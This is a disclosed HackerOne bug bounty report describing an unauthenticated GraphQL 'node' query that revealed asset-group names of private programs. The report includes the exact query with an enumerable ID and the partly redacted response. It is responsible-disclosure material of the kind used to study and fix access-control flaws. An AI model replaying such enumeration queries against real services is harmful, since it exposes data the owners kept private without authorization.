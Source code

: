 # Disclosing  PolicyPageAssetGroup in Private Programs via /graphql `gid://hackerone/PolicyPageAssetGroupsIndex::PolicyPageAssetGroup/{id}`

## Report Details
- **Report ID**: 1618347
- **URL**: https://hackerone.com/reports/1618347
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-06-28T17:29:11.263Z
- **Disclosed**: 2025-01-21T17:52:54.155Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi team, I understand what's going on
**Description:**
Just a recent update gives the results of private programs
### Steps To Reproduce

Without authorization

GraphQL: 
`{"query":"{node(id:\"gid://hackerone/PolicyPageAssetGroupsIndex::PolicyPageAssetGroup/3981-41287\"){... on PolicyPageAssetGroupDocument{id,name}}}"}`

Answer:
`{"data":{"node":{"id":"Z2lkOi8vaGFja2Vyb25lL1BvbGljeVBhZ2VBc3NldEdyb3Vwc0luZGV4OjpQb2xpY3lQYWdlQXNzZXRHcm91cC8zOTgxLTQxMjg3","name":"██████"}}}`

This is Asset program - █████████

Thanks!

## Impact

Disclosing Sсope(Assets) in Private Programs

## Attachments
No attachments
